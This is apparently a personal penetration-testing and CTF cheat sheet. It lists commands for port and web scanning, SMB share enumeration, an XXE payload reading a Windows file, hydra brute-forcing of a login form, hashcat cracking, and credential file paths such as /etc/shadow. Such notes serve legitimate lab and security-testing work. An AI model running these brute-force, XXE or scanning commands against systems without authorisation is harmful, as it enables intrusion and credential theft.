 Scanning
========

Rustscan
--------

Scan an IP:
```
rustscan -a $RHOSTS --ulimit 5000
```

Nmap
----

Scan TCP Ports:
```
nmap -sV $RHOSTS
```
	
Scan TCP ports and run scripts against open ports:
```
nmap -sV -sC $RHOSTS
```
	
Scan UDP ports and run scriptions against open ports:
```
sudo nmap -sU -sC $RHOSTS
```

nmap ignore firewall
```
nmap -sC -Pn $RHOSTS
```

Scan for smb vulns
```
nmap --script smb-vuln* -p 445 -oA nmap/smv_vuln $RHOSTS
```

CURL
----

Send HEAD request to IP:80
```
curl -I http://$IP/
```

GoBuster
--------

Quick scan of URL
```
gobuster dir --wordlist ~/user/share/seclists/Discovery/Web-Content/common.txt --url $RURL
```

Moderately thurough scan
```
gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --url $RURL
```

Scan for PHP paths
```
gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -e -s "200,301,302,401" -x "php" -t 100 --url $RURL
```

SMBClient
---------

Identifying open shares with directory listing:
```
while read i; do smbmap -H $i 2>/dev/null; done < <Target IP File> | grep -v Finding | grep -v Authentication
```

Vulnerable XML through external entities
```
Vulnerable XML:
	<!DOCTYPE root [<!ENTITY test SYSTEM "c:/windows/win.ini"> ]>
	...
	&test;
	...
```

Crypto
------

Check a public key
```
openssl rsa -noout -text -inform PEM -in Weak\ RSA/key.pub -pubin
```

Break RSA
```
cd ~/RsaCtfTool
python3 RsaCtfTool.py
```

Understand files
----------------

Discover the type of a file
```
file {filename}
```

Discover file that contains other magic numbers
```
binwalk --signature --term {filename}
```

WPScan
------

```
sudo gem install wpscan
wpscan --url $URL --detection-mode aggressive
```

General Vulnerability Scan
--------------------------
```
nikto --host $URL
```

Useful Linux Paths
------------------

```
/etc/passwd
/etc/shadow
/etc/crontab
```

Bruteforce a login page
-----------------------

[Guide](https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/)

```
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/login.php:username=admin&password=^PASS^:Invalid Username or Password"
---

Reverse a hash
--------------

```
echo "{salt}" > hash
hashcat -a 0 -m 500 hash /usr/share/wordlists/rockyou.txt
```

GDB
---

Check security on a binary
```
checksec $file
```